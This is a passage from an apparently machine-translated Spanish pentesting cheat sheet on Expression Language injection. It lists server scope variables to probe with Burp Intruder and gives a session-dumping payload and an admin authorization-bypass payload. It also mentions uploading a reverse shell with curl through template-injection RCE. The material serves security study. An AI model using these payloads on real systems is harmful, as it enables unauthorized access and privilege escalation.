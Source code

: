 Curl es muy útil, podemos transferir archivos desde y hacia la máquina víctima

> Así que podemos mover un shell inverso y ejecutarlo usando la inyección de plantilla RCE vuln

#### Ampliación de la explotación de EL <a href="#extending-el-exploitation" id="extending-el-exploitation"></a>

Las variables de servidor suelen tener nombres universales, como :

```
- ${application} 
- ${session}
- ${request}
```

> El intruso de eructo se puede utilizar para inyectarlos y buscar si no se devuelven datos interesantes en el resultado (si el objeto se resuelve)

Algunos nombres de variables pueden tener el siguiente aspecto (se ejecutan en sus respectivas llaves de plantilla):

```
applicationScope # global application variables
requestScope # request variables
initParam # application initialization variables
sessionScope # session variables
param.X # parameter value where X is name of a http parameter
```

Podemos recuperar con .toString así:

```
${sessionScope.toString()}
```

La omisión de autorización de ejemplo puede ser similar a la siguiente instrucción:

```
${pageContext.request.getSession().setAttribute("admin",true)}
```

Con burp intruder podemos encontrar variables con listas de palabras (como la siguiente):

```
${user}
${password}
${employee.FirstName}
```

Además:

```
- https://techblog.mediaservice.net/2016/10/exploiting-ognl-injection/
- https://sethjackson.github.io/2018/04/16/el-injection/
- https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts/
```

vamos a compilar y explotar un ejemplo simple de la inyección de Spring Expression Language

### Propósito de XSLT <a href="#xslt-purpose" id="xslt-purpose"></a>
